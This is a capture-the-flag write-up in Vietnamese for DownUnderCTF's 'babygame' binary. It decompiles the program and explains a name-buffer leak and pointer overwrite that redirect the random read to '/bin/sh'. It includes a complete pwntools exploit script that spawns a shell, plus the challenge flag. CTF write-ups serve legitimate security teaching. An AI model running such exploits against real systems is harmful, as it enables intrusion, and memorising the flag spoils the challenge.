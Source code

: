 # BABYGAME

## REVERSE FILE

Các thông số file: 64-bit, dynamic linked, not stripped...
```sh
babygame: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb63ec1c73b262295cbcef5af1abdbbab2424b80, for GNU/Linux 4.4.0, not stripped
```
Checksec:
```sh
[*] '/mnt/c/Users/n18dc/OneDrive/Desktop/DownUnderCTF/babygam3/babygame'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Dùng IDA để xem pseudo code của chương trình.
Hàm main trong chương trình.
```sh
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int num; // [rsp+Ch] [rbp-4h]

  init();
  puts("Welcome, what is your name?");
  read(0, NAME, 0x20uLL);
  RANDBUF = "/dev/urandom";
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      num = get_num();
      if ( num != 1337 )
        break;
      game();
    }
    if ( num > 1337 )
    {
LABEL_10:
      puts("Invalid choice.");
    }
    else if ( num == 1 )
    {
      set_username();
    }
    else
    {
      if ( num != 2 )
        goto LABEL_10;
      print_username();
    }
  }
}
```
Hàm game như sau:
```sh
unsigned __int64 game()
{
  FILE *stream; // [rsp+8h] [rbp-18h]
  int ptr; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen(RANDBUF, "rb");
  fread(&ptr, 1uLL, 4uLL, stream);
  printf("guess: ");
  if ( get_num() == ptr )
    system("/bin/sh");
  return v3 - __readfsqword(0x28u);
}
```

Chỉ cần get_num == ptr thì sẽ có shell, vấn đề chính là:
giá trị ptr đọc từ "/dev/urandom" nên sẽ ko đoán được. mình sẽ đè RANDBUF = "/bin/sh" và đọc giá trị cố định để get flag.
## EXPLOIT FILE

Code exploit chương trình như sau:
```sh
from pwn import *
import time
s = process("./babygame")
# s = remote("pwn-2021.duc.tf", 31907)
raw_input("debug")
s.sendline("Z"*0x20)

s.sendline("2")
s.recvuntil("Z"*0x20)

bss_addr = u64(s.recv(6)+"\x00\x00")
print "bss_addr >> " + hex(bss_addr)
binsh = bss_addr + 127

s.sendline("1")
s.sendline("A"*0x20 + p64(binsh))

s.recvuntil("Invalid choice.")

s.sendline("1337")
s.sendline("1179403647")

s.interactive()

#flag DUCTF{whats_in_a_name?_5aacfc58}
```